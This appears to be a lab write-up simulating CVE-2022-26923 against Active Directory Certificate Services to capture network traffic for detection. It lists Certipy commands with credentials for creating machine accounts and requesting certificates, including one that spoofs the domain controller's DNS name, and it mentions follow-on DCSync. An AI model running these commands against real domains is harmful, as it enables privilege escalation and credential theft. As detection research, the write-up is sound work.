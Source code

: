 Once the hash is collected for Domain Controller, many attacks can be done such as DCSync

## [](#header-2)Simulation - Benign
Pcap - 2022-05-11-cve-2022-26923-benign.pcap

**Attacker**
- IP: 192.168.10.55
- OS: Kali Linux
- Certipy: 3.0.0 (3db9123077233fb0c5f673f78d43b47665e6aea4)

**Victim**
- IP: 192.168.10.11
- OS: Windows Server 2019
- OSVersion: 10.0.17763

| Time | Command | Description |
|:----|:----|:----|
| 2022-05-11T08:02:56+00:00 | `certipy account create 'f1.ad.lab.ch/joe:Testing123!@f1.ad.lab.ch' -user 'joebenign' -dns 'joebenign.f1.ad.lab.ch' -debug`  | create a new machine as joe (notice the dns attribute is not Domain Controller) |
| 2022-05-11T08:03:52+00:00 |  `certipy req 'f1.ad.lab.ch/JOEBENIGN$:OKHSdMqcRU3YJzB1@f1.ad.lab.ch' -ca F1-DC-01-CA -template Machine` | certificate request |

## [](#header-2)Simulation - Unencrypted Ldap

Pcap - 2022-05-11-cve-2022-26923-unencrypted_ldap.pcap

**Attacker**
- IP: 192.168.10.55
- OS: Kali Linux
- Certipy: 3.0.0 (3db9123077233fb0c5f673f78d43b47665e6aea4)

**Victim**
- IP: 192.168.10.11
- OS: Windows Server 2019
- OSVersion: 10.0.17763

| Time  | Command   | Description   |
|:---------|:----|:----|
| 2022-05-11T11:54:23+00:00 | `certipy account create 'f1.ad.lab.ch/joe:Testing123!@f1.ad.lab.ch' -user 'joebenign3' -dns 'f1-dc-01.f1.ad.lab.ch' -debug -scheme ldap` | create a new machine as joe using LDAP not LDAPs |

- For some reason fails with message below 

`Received unknown error: (unwillingToPerform) 0000001F: svcErr: DSID-031A1236, problem 5003 (WILL_NOT_PERFORM), data 0`

However we have the unencrypted request packet captured. This will be the easiest dentifier for this attack on the network 
